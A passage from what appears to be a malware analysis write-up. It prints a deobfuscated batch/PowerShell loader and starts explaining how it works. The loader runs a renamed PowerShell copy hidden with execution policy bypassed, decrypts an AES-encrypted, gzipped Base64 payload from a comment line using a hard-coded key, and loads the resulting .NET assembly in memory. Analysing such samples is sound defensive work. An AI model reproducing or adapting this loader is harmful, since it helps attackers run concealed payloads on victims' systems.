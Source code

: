 Cleaning this up a bit, I can get a better idea of what's going on.

```batch
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine)

foreach ($YiLGW in $eIfqq) { 
	if ($YiLGW.StartsWith(':: ')) {  
		$VuGcO = $YiLGW.Substring(3)
 		break
 	}
}

$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')
$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

The script first copies Powershell to the present working directory and renames it to match the script's name,.
```batch
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
```

The script then reads its contents for any line that starts with the characters `::` which correspond to a comment. In this case, the only line that matches this criteria is the Base64 string.
